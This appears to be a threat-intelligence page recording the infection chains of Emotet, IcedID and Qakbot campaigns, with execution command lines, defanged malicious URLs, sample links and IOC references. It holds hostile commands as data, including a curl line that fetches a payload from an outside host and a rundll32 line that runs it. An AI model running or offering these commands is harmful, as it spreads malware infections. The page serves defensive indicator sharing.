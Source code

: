 
### .zip > .doc > .dll


[#Emotet](https://twitter.com/hashtag/Emotet?src=hashtag_click)- epoch4 - .zip > .doc > .dll
https://twitter.com/pr0xylife/status/1633096910008467459



#Emotet- epoch4 - .zip > .doc > .dll

WINWORD.EXE /n INVOICE 589 03_23.doc /o

https://midcoastsupplies.]com].au/configNQS/Es2oE4GEH7fbZ/?135704

regsvr32.exe C:\Windows\system32\MSBjdGgEfuEG\evPaAyJzdCSx.dll

IOC's
https://github.com/pr0xylife/Emotet/blob/main/e4_emotet_07.03.2023.txt

###  .pdf > .url > .zip > .iso > .cmd > .exe

[#IcedID](https://twitter.com/hashtag/IcedID?src=hashtag_click) - .pdf > .url > .zip > .iso > .cmd > .exe
https://twitter.com/pr0xylife/status/1616464950138109953


#IcedID - .pdf > .url > .zip > .iso > .lnk > .cmd > .dll

cmd.exe /c REF_Document.lnk

cmd.exe /c sacsimsapI.cmd

rundll32 standing.dat,init

c2'

http://umousteraton.]com

Samples here 👇

https://bazaar.abuse.ch/sample/3390b1d8560f565ed5e2a60df63ce24abe0ef3da514cf5645dd732f7e5cdbbae/

https://bazaar.abuse.ch/sample/ad174760985c5418b4a3c3a97cd8d7658e3bbb7030f72f2eff9ff97e57f200bd/

IOC's
https://github.com/pr0xylife/IcedID/blob/main/icedID_20.01.2023.txt

###  url > .zip > .one > .hta > .curl > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB12 - url > .zip > .one > .hta > .curl > .dll
https://twitter.com/pr0xylife/status/1620751340485120001


#Qakbot - BB12 - url > .zip > .one > .hta > .curl > .dll

mshta Open.hta

curl -o C:\ProgramData\index.png --url billmanagersystem.]com/ikA/d.gif

rundll32 C:\ProgramData\index.png,Wind
